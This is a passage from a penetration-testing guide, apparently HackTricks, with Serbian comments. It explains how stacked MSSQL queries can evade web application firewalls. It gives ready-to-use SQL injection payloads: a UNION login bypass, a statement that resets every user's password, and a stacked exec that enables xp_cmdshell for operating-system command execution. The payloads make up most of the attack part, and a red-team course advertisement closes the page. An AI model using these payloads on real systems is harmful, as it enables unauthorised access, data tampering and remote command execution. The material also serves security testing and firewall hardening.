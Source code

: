 Therefore it could be possible to bypass different WAFs that doesn't consider this form of stacking queries. For example:

```
# Dodavanje beskorisnog exec() na kraju i navođenje WAF-a da ovo nije validan upit
admina'union select 1,'admin','testtest123'exec('select 1')--
## Ovo će biti:
SELECT id, username, password FROM users WHERE username = 'admina'union select 1,'admin','testtest123'
exec('select 1')--'

# Korišćenje čudno konstruisanih upita
admin'exec('update[users]set[password]=''a''')--
## Ovo će biti:
SELECT id, username, password FROM users WHERE username = 'admin'
exec('update[users]set[password]=''a''')--'

# Ili omogućavanje xp_cmdshell
admin'exec('sp_configure''show advanced option'',''1''reconfigure')exec('sp_configure''xp_cmdshell'',''1''reconfigure')--
## Ovo će biti:
select * from users where username = ' admin'
exec('sp_configure''show advanced option'',''1''reconfigure')
exec('sp_configure''xp_cmdshell'',''1''reconfigure')--'
```

### References

* [https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/](https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/)
* [https://www.gosecure.net/blog/2023/06/21/aws-waf-clients-left-vulnerable-to-sql-injection-due-to-unorthodox-mssql-design-choice/](https://www.gosecure.net/blog/2023/06/21/aws-waf-clients-left-vulnerable-to-sql-injection-due-to-unorthodox-mssql-design-choice/)

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
